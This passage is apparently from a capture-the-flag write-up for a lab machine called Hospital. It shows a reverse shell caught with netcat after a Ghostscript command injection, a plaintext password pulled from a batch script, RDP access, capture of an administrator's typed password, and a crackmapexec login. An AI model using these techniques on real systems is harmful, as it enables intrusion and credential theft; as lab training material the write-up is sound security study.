

After a brief wait, I get a reverse shell connection:
```
┌──(kali㉿kali)-[~/Documents/Hospital/CVE-2023-36664-Ghostscript-command-injection]
└─$ nc -nvlp 8888   
listening on [any] 8888 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.160.0] 6271
whoami
hospital\drbrown
```
## Privilege Escalation 2
### Login credentials discovered in bat script
We can find brown's password is in the ghostscript.bat, the same folder location our shell is dropped into:
```
PS C:\users\drbrown.hospital> type documents\ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }""
```
`drbrown:chr!$br0wn`

This user is also able to RDP connect, which we can confirm with `net user`:
```
PS C:\Users\drbrown.HOSPITAL\Documents> net user drbrown
User name                    drbrown
Full Name                    Chris Brown
<...SNIP...>
Local Group Memberships      *Performance Log Users*Remote Desktop Users 
                             *Remote Management Use*Users                
Global Group memberships     *Domain Users         
The command completed successfully.
```
Seeing Remote Desktop users means we can use `xfreerdp` or similar to establish a connection, which can be helpful for GUI interaction and general persistence in the event that our reverse shell breaks. 
### Spying on desktop activity
When we enter the RDP connection, we can see `drbrown` doing login activities.
```
┌──(kali㉿kali)-[~/Documents/Hospital]
└─$ xfreerdp /u:drbrown /p:'chr!$br0wn' /v:hospital.htb /dynamic-resolution
```



On a loop, this user will open the webmail login page, type in "Administrator" as the user, and presumably the associated password as well. There are many ways to retrieve this password, but here are a couple of my choice ideas:

#### Moving input to notepad:
The typing method is not checking the location on where it is typing, so we can wait for the login page to be reached, then switch over to Notepad.exe, and the full login credential will be displayed for all to see.



#### Tracking parameters via the POST request:
We can use the network monitor tool builtin to Internet Explorer and, when the "user" is finished typing the credentials, we can press LOGIN and examine the Request body that was sent:



This will be URL encoded, so you replace `%21` with `!`

`Administrator:Th3B3stH0sp1t4l9786!`
These credentials are for the Administrator user on the system, where we can grab the root flag from Desktop.
```
┌──(kali㉿kali)-[~]
└─$ cme smb hospital.htb -u 'administrator' -p 'Th3B3stH0sp1t4l9786!'
SMB         hospital.htb    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         hospital.htb    445    DC               [+] hospital.htb\administrator:Th3B3stH0sp1t4l9786! (Admin!)
```

